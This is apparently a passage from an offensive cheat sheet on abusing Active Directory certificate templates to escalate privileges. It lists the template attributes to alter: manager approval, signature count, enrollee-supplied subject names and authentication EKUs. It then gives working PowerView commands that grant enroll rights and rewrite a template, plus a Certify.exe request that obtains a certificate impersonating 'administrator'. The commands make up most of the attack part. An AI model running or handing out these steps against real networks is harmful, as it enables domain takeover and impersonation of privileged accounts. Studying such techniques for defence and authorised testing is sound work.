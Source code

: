 Change the following attributes in the template.

`mspki-enrollment-flag`: Disable PEND_ALL_REQUESTS flag in order to request the template without Manager Approval.\
In GUI, this attribute can be enabled by checking "CA manager approval" check box in "Issuance Requirements" tab.

`mspki-ra-signature`: Specify the number of Authorized Signatures to issue certificate.\
In GUI, this attribute can be controlled by checking "This number of authorized signatures" check box in "Issuance Requirements" tab and setting the number.

`mspki-certificate-name-flag`: Enable ENROLLEE_SUPPLIES_SUBJECT flag in order to specify an arbitrary user account Subject Alternative Name (SAN) in certificate request.\
In GUI, this attribute can be enabled by choosing "Supplly in the request" in "Subject Name" tab.

`mspki-certificate-application-policy`: Specify Certificate Application Policy Extension in order to validate the authentication.\
In GUI, this attribute can be controlled by setting "Application Policies" in "Extensions" tab. It takes precedence over `pkiextendedkeyusage` and `mspki-ra-application-policies`.

`pkiextendedkeyusage`: Specify Extended Key Usage (EKU).
    Client Authentication 1.3.6.1.5.5.7.3.2
    Smart Card Logon 1.3.6.1.4.1.311.20.2.2
    PKINIT Client Authentication 1.3.6.1.5.2.3.4
    Any Purpose 2.5.29.37.0
    No EKU

`mspki-ra-application-policies`: This attribute encapsulates embedded properties for multipurpose use.\
In GUI, this attribute can be controlled by checking "This number of authorized signatures" check box in "Issuance Requirements" tab and choosing "Application Policy" menu. Certify.exe displays this attribute as Application Policies.

Add enrollments rights.

`Certificate-Enrollment`: The corresponding GUID is 0e10c968-78fb-11d2-90d4-00c04f79dc55.

`Certificate-AutoEnrollment`: The corresponding GUID is a05b8cc2-17bc-4802-a710-e7c15ab866a2.

Or yolo it with 00000000-0000-0000-0000-000000000000 (all extended rights)

Windows
```
# add enroll rights with PowerView
Add-DomainObjectAcl -TargetIdentity template_name -PrincipalIdentity controlled_user -RightsGUID "0e10c968-78fb-11d2-90d4-00c04f79dc55" -TargetSearchBase "LDAP://CN=Configuration,DC=corp,DC=local" -Verbose

# disable manager approval
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=corp,DC=local" -Identity template_name -XOR @{'mspki-enrollment-flag'=2} -Verbose

# disable signature requirements
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=corp,DC=local" -Identity template_name -Set @{'mspki-ra-signature'=0} -Verbose

# enable SAN attribute
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=corp,DC=local" -Identity template_name -XOR @{'mspki-certificate-name-flag'=1} -Verbose

# add authentication EKUs
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=corp,DC=local" -Identity template_name -Set @{'mspki-certificate-application-policy'='1.3.6.1.5.5.7.3.2'} -Verbose

# request certificate for administrator
.\Certify.exe request /ca:corp.local\ca_name /template:template_name /altname:administrator

# convert pem to pfx
```